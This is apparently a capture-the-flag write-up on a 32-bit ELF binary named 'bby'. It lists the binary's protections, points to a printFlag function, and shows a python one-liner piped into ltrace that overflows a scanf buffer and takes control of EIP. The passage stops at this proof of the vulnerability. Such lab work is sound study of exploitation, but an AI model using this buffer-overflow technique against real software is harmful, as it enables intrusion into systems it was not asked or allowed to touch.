 0x0 Introduction
=

`bby: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=3fb9014d549efe4ce761146b736590eb9f7e281d, not stripped
`

This file is ELF 32bit execution.

	CANARY    : disabled

	FORTIFY   : disabled

	NX        : ENABLED

	PIE       : disabled
	
	RELRO     : Partial

It have those protect.

`0804856d <printFlag>:`

And there hava a function call printFlag.If I can controller eip and jump to this function,I will get the flag.

0x1 Vulnerability
=

	# python -c "print 'a'*24+'zzzz'"|ltrace -i ./bby 

	[0x8048491] __libc_start_main(0x80485c9, 1, 0xffb97214, 0x8048610 <unfinished ...>

	[0x80485de] puts("This program is hungry. You shou"...This program is hungry. You should feed it.) = 44

	[0x80485f2] __isoc99_scanf(0x80486d8, 0xffb97164, 0xffb9721c, 0xf75573fd) = 1

	[0x80485fe] puts("Do you feel the flow?"Do you feel the flow?)        = 22

	[0x7a7a7a7a] --- SIGSEGV (Segmentation fault) ---

	[0xffffffffffffffff] +++ killed by SIGSEGV +++
